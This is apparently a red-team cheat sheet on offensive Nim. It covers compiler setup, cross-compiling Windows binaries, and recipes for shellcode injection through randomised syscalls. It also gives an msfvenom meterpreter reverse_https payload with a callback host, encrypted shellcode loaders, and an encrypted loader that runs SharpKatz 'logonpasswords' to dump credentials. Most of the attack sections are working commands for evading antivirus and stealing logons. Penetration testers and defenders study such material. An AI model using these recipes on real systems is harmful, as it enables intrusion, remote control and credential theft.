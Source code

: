 # Nim

* [https://github.com/byt3bl33d3r/OffensiveNim](https://github.com/byt3bl33d3r/OffensiveNim)
* [https://s3cur3th1ssh1t.github.io/Playing-with-OffensiveNim/](https://s3cur3th1ssh1t.github.io/Playing-with-OffensiveNim/)
* [https://github.com/S3cur3Th1sSh1t/Creds/tree/master/nim](https://github.com/S3cur3Th1sSh1t/Creds/tree/master/nim)
* [https://github.com/ajpc500/NimExamples](https://github.com/ajpc500/NimExamples)
* [https://huskyhacks.dev/2021/07/17/nim-exploit-dev/](https://huskyhacks.dev/2021/07/17/nim-exploit-dev/)
* [https://casvancooten.com/posts/2021/08/building-a-c2-implant-in-nim-considerations-and-lessons-learned/](https://casvancooten.com/posts/2021/08/building-a-c2-implant-in-nim-considerations-and-lessons-learned/)




## Install

Windows:

* [https://nim-lang.org/install_windows.html](https://nim-lang.org/install_windows.html)
* [https://git-scm.com/download/win](https://git-scm.com/download/win)

Linux:

```
$ sudo apt install mingw-w64 -y
$ sudo apt install nim -y
Or
$ curl https://nim-lang.org/choosenim/init.sh -sSf | sh
```

Dependencies:

```
Nim > nimble install winim nimcrypto zippy
```




## Compilation

Basic:

```
Nim > nim c program.nim
```

To not popup the console window:

```
Nim > nim c --app:gui program.nim
```

For the best size:

```
Nim > nim c -d:danger -d:strip --opt:size --passC=-flto --passL=-flto program.nim
```

For Windows on Linux:

```
$ nim c --cpu:amd64 --os:windows --gcc.exe:x86_64-w64-mingw32-gcc --gcc.linkerexe:x86_64-w64-mingw32-gcc program.nim
```

Add the needed relocation section to the resulting executable (from Windows):

```
Nim > nim c --passL:-Wl,--dynamicbase,--export-all-symbols program.nim
```




## Inject Shellcode



### NimlineWhispers

* [https://ajpc500.github.io/nim/Shellcode-Injection-using-Nim-and-Syscalls/](https://ajpc500.github.io/nim/Shellcode-Injection-using-Nim-and-Syscalls/)
* [https://github.com/ajpc500/NimlineWhispers](https://github.com/ajpc500/NimlineWhispers)
* [https://github.com/snovvcrash/NimlineWhispers](https://github.com/snovvcrash/NimlineWhispers)

How-to:

1. Generate a nim header with syscalls definitions (function names randomized): `python3 NimlineWhispers.py --randomise`.
2. Modify [*shellcode_bin.nim*](https://github.com/byt3bl33d3r/OffensiveNim/blob/master/src/shellcode_bin.nim) template to fit new function names.
3. Generate a shellcode of your choice, put it into the template and compile the binary: `nim c -d=mingw --app=console --cpu=amd64 shellcode_bin.nim`.


#### Encrypted

* [https://github.com/S3cur3Th1sSh1t/Creds/blob/master/nim/encrypt_shellcode.nim](https://github.com/S3cur3Th1sSh1t/Creds/blob/master/nim/encrypt_shellcode.nim)
* [https://github.com/S3cur3Th1sSh1t/Creds/blob/master/nim/encrypted_shellcode_loader_syscalls.nim](https://github.com/S3cur3Th1sSh1t/Creds/blob/master/nim/encrypted_shellcode_loader_syscalls.nim)

```
 # Generate a shellcode
$ msfvenom -p windows/x64/meterpreter/reverse_https LHOST=192.168.16.18 LPORT=443 -e x64/xor -b '\x00' -f csharp
 # Copy the shellcode into the 1st template and compile
$ nim c encrypt_shellcode.nim
 # Encrypt the shellcode and write contents into a file
$ ./encrypt_shellcode 'Passw0rd!' b64.txt
 # Copy encrypted shellcode into the 2nd template and compile
$ cat b64.txt | xclip -i -sel c
$ nim c --cpu:amd64 --os:windows --gcc.exe:x86_64-w64-mingw32-gcc --gcc.linkerexe:x86_64-w64-mingw32-gcc -d:danger -d:strip --opt:size --passC=-flto --passL=-flto encrypted_shellcode_loader_syscalls.nim
```




## Execute C# Assemblies

* [https://github.com/byt3bl33d3r/OffensiveNim/blob/master/src/execute_assembly_bin.nim](https://github.com/byt3bl33d3r/OffensiveNim/blob/master/src/execute_assembly_bin.nim)
* [https://github.com/S3cur3Th1sSh1t/Creds/blob/master/helpers/CSharpToNimByteArray.ps1](https://github.com/S3cur3Th1sSh1t/Creds/blob/master/helpers/CSharpToNimByteArray.ps1)
* [https://github.com/snovvcrash/Creds/blob/master/helpers/CSharpToNimByteArray.ps1](https://github.com/snovvcrash/Creds/blob/master/helpers/CSharpToNimByteArray.ps1)

```
$ pwsh -exec bypass
PS > . ./CSharpToNimByteArray.ps1
PS > CSharpToNimByteArray -inputfile csharp.exe
Nim > nim c --passL:-Wl,--dynamicbase,--export-all-symbols execute_assembly_bin.nim
```



### Encrypted

* [https://github.com/S3cur3Th1sSh1t/Creds/blob/master/nim/encrypt_assembly.nim](https://github.com/S3cur3Th1sSh1t/Creds/blob/master/nim/encrypt_assembly.nim)
* [https://github.com/S3cur3Th1sSh1t/Creds/blob/master/nim/encrypted_assembly_loader.nim](https://github.com/S3cur3Th1sSh1t/Creds/blob/master/nim/encrypted_assembly_loader.nim)

```
$ nim c encrypt_assembly.nim
$ nim c --cpu:amd64 --os:windows --gcc.exe:x86_64-w64-mingw32-gcc --gcc.linkerexe:x86_64-w64-mingw32-gcc -d:danger -d:strip --opt:size --passC=-flto --passL=-flto encrypted_assembly_loader.nim
$ ./encrypt_assembly 'Passw0rd!' SharpKatz.exe b64.txt
Cmd > .\encrypted_assembly_loader.exe Passw0rd! b64.txt --Command logonpasswords
```
